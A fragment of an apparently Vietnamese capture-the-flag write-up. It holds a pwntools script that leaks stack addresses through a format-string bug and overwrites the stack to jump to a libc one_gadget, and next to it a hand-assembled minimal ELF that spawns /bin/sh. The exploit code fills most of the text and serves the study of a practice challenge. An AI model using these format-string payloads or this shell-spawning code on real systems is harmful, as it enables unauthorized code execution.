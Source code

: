 
script2 :  ta sẽ overwrite thêm stack thành 0 để thõa mãn one_gadget

```python
from pwn import *


#p = remote('34.42.147.172', 4003)

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
p = process()
p.recvuntil(b'(gift/flag)')
p.send(b'%p%p%p%p%')

eip = int(p.recvuntil(b'r')[1:-1], 16) - (0x7fffffffc6b8 - 0x7fffffffc668)
print(hex(eip))

ref = 0x00007ffff7dd51ca - 0x7ffff7dab000
og = 0xef4ce
print(hex(ref))
payload = b'%11$n%12$n%13$n'
payload += b'%*25$c' + b'%' + str(og - ref).encode() + b'c' + b'%14$n'
payload += b'a' * 6
print(hex(len(payload)))
payload += p64(eip - 0x2c) + p64(eip - 0x30) + p64(eip - 0x28) + p64(eip)
input()
p.sendafter(b"press ENTER to continue....", b'\n')


p.recvuntil(b'Input :')
p.send(payload)
p.interactive()
```


-------

## happy golfing

để tạm ở đây research sau :)))

```
BITS 32
        org     0x05000000
        db      0x7F, "ELF"
        dd      1
        dd      0
        dd      $$
        dw      2
        dw      3
        dd      $$+0x1b
        dd      $$+0x1b
        dd      4
        db      0xeb, 1, 0xe9
        mov     ebx, cmd
        and     ecx, 0x10020
        cmc
        db      0xeb, 0, 0xeb, 1, 0xe9
        mov     al, 0xb
        db      0xeb, 1, 0xe9
        int     0x80
cmd     db      '/bin/sh', 0
```